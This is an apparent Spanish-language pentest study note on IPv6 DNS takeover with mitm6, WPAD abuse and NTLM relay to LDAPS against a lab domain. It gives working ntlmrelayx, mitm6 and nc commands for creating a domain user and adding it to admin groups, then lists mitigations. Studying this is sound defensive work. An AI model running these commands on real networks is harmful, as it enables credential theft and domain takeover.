 
>[!WARNING]
>es importante no ejecutarlo durante mas de 5-10 minutos ya que causa interrupciones en la red.

# 🌐 ¿Para qué sirve un ataque **DNS Takeover vía IPv6**?

El **DNS Takeover por IPv6** (también conocido como **NS Takeover** usando `mitm6`) permite:

### 🎯 Principalmente:

- **Engañar a las víctimas** para que usen **tu máquina como servidor DNS**.
    
- **Capturar o relayar** autenticaciones NTLM automáticamente.
    
- **Registrar entradas DNS falsas** en el Active Directory si tienes permisos.
    
- **Crear nombres de máquinas o servicios** que apunten hacia tu control.
    

---

# ✅ ¿Qué podemos hacer con él en un pentest?

|Uso|Descripción|
|---|---|
|**Captura de credenciales**|Forzar que usuarios o servidores se autentiquen hacia ti.|
|**SMB Relay**|Relayar autenticaciones hacia SMB/LDAP para obtener acceso o ejecutar comandos.|
|**Creación de usuarios maliciosos**|Si puedes abusar de LDAP, crear cuentas en el dominio.|
|**Suplantar servicios**|Fingir ser servidores internos (ej. `fileserver.empresa.local`) para capturar tráfico o contraseñas.|
|**Movimientos laterales**|Escalar privilegios o pivotar hacia otros hosts usando los accesos obtenidos.|

---

# 📌 ¿Por qué IPv6?

- Aunque muchas redes no lo usan activamente, **Windows habilita IPv6 por defecto**.
    
- **mitm6** explota esta "puerta trasera" para entregar respuestas falsas de DHCPv6 y DNS.


## 🧠 Esquema de DNS Takeover via IPv6

Así consigues acceso **sin necesidad de explotar vulnerabilidades tradicionales**.

[Red Corporativa] 
       |
       | (1) Las computadoras Windows están configuradas para usar IPv6 por defecto
       |
[Atacante (Kali Linux)]
       |
       | (2) Inicia mitm6
       | => mitm6 envía anuncios DHCPv6 falsos
       | => Dice a las víctimas: "Yo soy tu nuevo servidor DNS"
       |
[Máquinas Windows Víctimas]
       |
       | (3) Configuran automáticamente el servidor DNS (tu IP de atacante)
       | (sin que el usuario se entere)
       |
[Víctimas envían consultas DNS]
       |
       | (4) Las solicitudes de resolución de nombres ahora van al atacante
       |
[Atacante captura NTLM]
       |
       | (5) ntlmrelayx.py recibe las solicitudes de autenticación NTLM
       |
       | (6) Relay de hashes hacia LDAP / SMB / HTTP (según configuración)
       |
       | (7) Si los permisos lo permiten:
       |     - Crear un nuevo usuario en Active Directory
       |     - Registrar un SPN o máquina falsa
       |     - Moverse lateralmente




# 🌐 ¿Qué es **WPAD**?

**WPAD** significa **Web Proxy Auto-Discovery Protocol**.

Es un protocolo que permite a las computadoras encontrar automáticamente el **proxy de la red** sin que el usuario tenga que configurarlo manualmente.

**En otras palabras:**

- Es una forma en la que Windows (y otros sistemas) preguntan en la red:
    
    > "¿Dónde está mi servidor proxy?"
    
- Y si hay un servidor **WPAD**, el sistema **descarga automáticamente** un archivo de configuración `.pac` para enrutar su tráfico.


# 📌 ¿Cómo funciona WPAD en la práctica?

1. El cliente Windows hace una consulta DNS preguntando por `wpad.empresa.local`.
    
2. Si existe, se conecta al servidor WPAD.
    
3. Descarga un archivo `.pac` (proxy auto-config).
    
4. El navegador configura automáticamente el proxy que dice ese archivo.
    
5. Si el servidor WPAD es malicioso → el atacante captura tráfico o credenciales NTLM.


## ¿Cómo se hace?

Primeramente debemos de lanzar el relay para las peticiones ipv6


```bash
impacket-ntlmrelayx -6 -t ldaps://192.168.0.220 -wh fakewpad.marvel.local -l lootme -i
```

donde los parametros son:

+ -6: indica que se ejecutara con ipv6.
+ -t: este seria el LDAP objetivo
+ -wh: **WPAD host:** dice a las víctimas que descarguen el archivo WPAD desde este nombre malicioso. Se usa para capturar más NTLM o para forzar autenticaciones automáticas de navegador.
+ -l: carpeta donde `ntlmrelayx` guardará todo lo capturado: hashes, tickets, objetos LDAP enumerados, información sensible.
+ -i: después de capturar una autenticación válida, te da acceso a un menú interactivo para explotar manualmente: enumerar objetos LDAP, crear usuarios, abusar de permisos, etc. **(opcional)**

Despues ejecutaremos Mitm6:

```bash
sudo mitm6 -d marvel.local
```

Ahora cuando ocurra cualquier evento nos lo mostrará, e incluso, si hemos puesto el modo interactivo, se nos abrira una puerta para una consola de ldap y podremos crear usuarios, tambien el directorio lootme, nos vendra un monton de info sobre el dominio.

![[Pasted image 20250427131711.png]]

Para crear el usuario nuevo del dominio y que este pertenezca al grupo de **Enterprise Admins**, Tendremos que acceder a esta consola con el comando:

```bash
nc 127.0.0.1 11000
```

*esto dependerá de la dirección que te haya dado el **relay** .

![[Pasted image 20250427131913.png]]

Creamos el usuario dentro de la sesion de *nc*:

```bash
add_user test
```

y lo añadimos a los grupos que podamos, si podemos en administradores perfecto, si no a Enterprise Admins para despues poder usar secretsdumps.py

```bash
add_user_to_group test Administradores
```


# 🛡️ Estrategias de Mitigación para Ataques IPv6

### 1. **Bloquear tráfico DHCPv6 y anuncios de enrutador**

- **Por qué:** mitm6 y otros ataques aprovechan que Windows siempre consulta IPv6, incluso si solo usas IPv4.
    
- **Cómo prevenirlo:**
    
    - Bloquear tráfico DHCPv6 y anuncios de enrutadores en el firewall de Windows mediante GPO (Group Policy).
        
    - No es necesario deshabilitar completamente IPv6 (podría causar problemas en Windows).
        
- **Reglas específicas a bloquear:**
    
    - (Inbound) Core Networking - DHCPv6-In
        
    - (Inbound) Core Networking - ICMPv6-In (Router Advertisement)
        
    - (Outbound) Core Networking - DHCPv6-Out
        

---

### 2. **Desactivar WPAD si no se usa**

- **Por qué:** WPAD puede ser usado para forzar autenticaciones NTLM (secuestro).
    
- **Cómo:** Deshabilitar WPAD por GPO y detener el servicio `WinHttpAutoProxySvc`.
    

---

### 3. **Proteger LDAP/LDAPS contra NTLM relay**

- **Cómo:**
    
    - Activar **LDAP signing**.
        
    - Activar **LDAP channel binding**.
        

Así se evita que un relay NTLM funcione sobre LDAP o LDAPS.

---

### 4. **Proteger usuarios privilegiados**

- **Cómo:**
    
    - Mover usuarios administradores a **Protected Users group** o
        
    - Marcar cuentas como **"sensibles"** y **"no delegables"**.
        
- **Qué logra:**
    
    - Evitar que puedan ser suplantados mediante ataques de relay o delegación.